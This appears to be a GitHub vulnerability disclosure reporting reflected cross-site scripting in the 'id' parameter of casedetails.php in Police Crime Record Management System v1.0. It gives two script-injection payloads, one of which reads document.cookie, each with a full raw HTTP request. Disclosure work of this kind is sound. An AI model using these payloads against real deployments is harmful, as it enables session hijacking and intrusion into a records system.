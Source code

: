 # Police Crime Record Management System v1.0 has Cross-site scripting (reflected)

BUG_Author:Derek_Zhang

Website source address:https://www.sourcecodester.com/php/14894/police-crime-record-management-system.html

Vulnerability File: /ghpolice/admin/casedetails.php

GET parameter 'id' exists XSS vulnerability

Payload1:id="><script>alert(233)</script>&status=Completed

```
GET /ghpolice/admin/casedetails.php?id=%22%3E%3Cscript%3Ealert(233)%3C/script%3E&status=Completed HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=30di1kr94iks5mnf9ufm2uuh2f
Connection: close
```

![image](https://github.com/fillorkill/bug_report/blob/main/picture/xss1.png)

Payload2:id="><script>alert(document.cookie)</script>&status=Completed

```
GET /ghpolice/admin/casedetails.php?id=%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E&status=Completed HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=30di1kr94iks5mnf9ufm2uuh2f
Connection: close
```

![image](https://github.com/fillorkill/bug_report/blob/main/picture/xss2.png)
